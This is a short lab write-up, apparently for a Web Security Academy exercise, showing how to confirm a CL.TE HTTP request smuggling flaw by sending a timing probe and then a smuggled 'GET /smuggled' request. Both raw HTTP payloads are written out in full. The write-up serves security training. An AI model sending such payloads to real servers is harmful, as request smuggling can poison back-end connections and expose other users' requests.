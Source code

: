 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response.

# Solutionn
## Analysis
###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.
```
POST / HTTP/1.1
Host: 0a6200bc0380cb9090c189f700010090.web-security-academy.net
Cookie: session=1lFjDqNc6qenEz6ZkW8HMydz5uF1gMDD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

|![](Images/image-19.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - the `POST / HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

```
POST / HTTP/1.1
Host: 0a6200bc0380cb9090c189f700010090.web-security-academy.net
Cookie: session=1lFjDqNc6qenEz6ZkW8HMydz5uF1gMDD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Foo: x
```


|![](Images/image-20.png)|
|:--:| 
| *Request was smuggled* |